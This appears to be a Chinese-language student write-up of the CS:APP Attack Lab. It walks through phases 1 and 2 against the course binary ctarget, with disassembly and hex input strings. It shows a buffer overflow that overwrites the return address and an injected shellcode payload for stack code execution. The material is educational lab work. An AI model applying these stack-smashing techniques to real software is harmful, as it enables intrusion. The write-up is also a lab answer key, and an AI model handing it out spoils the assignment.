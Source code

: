 注意，运行./rtarget或者ctarget可能有问题，加上-q即可

## attack1:

我使用的操作系统是Ubuntu 22.04版本，在这个版本上运行ctarget程序会出现Segmentation Fault。如果你用gdb调试会发现在__vfprintf_internal方法内部有问题，具体修复方法可以参考：[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)。建议使用更老的linux版本。我使用18是没问题的。

请先阅读attacklab.pdf

`hex2raw` 是一个字一个字的读，也就是一次读8个字节，但是字内部是小端，比如attack1.txt：`41 00 00 00 00 00 00 00`

执行./hex2raw < attack1.txt会输出 `A`。`./hex2raw < attack1.txt | ./ctarget -q`我们可以用这个命令执行程序

根据pdf的意思，我们首先要侵入一个程序，让它运行 `4017c0 <touch1>:` 。方法需要你知道栈的运行过程，当我们调用函数的时候，会自动的把程序的返回地址先压入栈中，然后再进入调用的函数，调用完成后返回，示意图如下：

```
[ 返回地址 ]        <--- 函数返回后，跳转到这里执行
[ buffer (x 字节) ]<--- 局部变量，用于存储用户输入
```

我们这个程序是从 `401968 <test>` 函数开始的

```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
```

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

getbuf给栈分配了40个字节的空间，40个之后就是返回地址了。所以我们先随便输入40个字节，再把后面的八个字节换成touch1的地址4017C0就成功了。

输入
```
A0 00 00 00 00 00 00 00
B0 00 00 00 00 00 00 00
C0 00 00 00 00 00 00 00
D0 00 00 00 00 00 00 00
E0 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
```

## attack2:

rsp进入getbuf的时候是0x5561dca0，rsp减40个字节就是0x5561dc78。我们需要。我们的返回地址设成栈顶，并把栈顶的内容换成一个命令的二进制，计算机会自动执行他们。90是占位符，没作用

输入
```
48 BF FA 97 B9 59 00 00 00 00	/*	mov rdi, 0x59B997FA	*/
68 EC 17 40 00					/*	push 0x004017EC		*/
C3  							/*	ret					*/
90 90 90 90 90 90 90 90			
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
78 dc 61 55 00 00 00 00
```

注意在 64 位模式下，push 会将 8 字节值压入栈中（即使立即数是 32 位的，也会被符号扩展为 64 位）。如果push四字节后面是一些00 00，那么会被认为是其他的指令，比如add %al, (%rax)，对应的二进制是：00 00
